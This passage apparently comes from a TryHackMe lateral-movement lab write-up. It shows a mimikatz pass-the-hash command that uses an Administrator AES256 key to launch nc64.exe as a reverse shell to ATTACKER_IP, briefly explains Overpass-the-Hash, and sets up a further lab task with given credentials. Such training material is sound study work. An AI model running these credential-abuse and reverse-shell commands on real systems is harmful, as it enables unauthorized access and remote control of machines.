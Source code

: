 ```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

\*\*\* Bonus: RC4 keys are equal to the NTLM hash of a user, meaning we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as **Overpass-the-Hash (OPtH)**

***

***

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

## Task 3

Similar to the previous task, we need to move laterally from THMJMP2 to THMII but this time using the techniques above . Initial credentials are given (assume we captured with admin access). These credentials grant admin access allowing to use Mimikatz.

User: `ZA.TRYHACKME.COM\t2_felicia.dean`
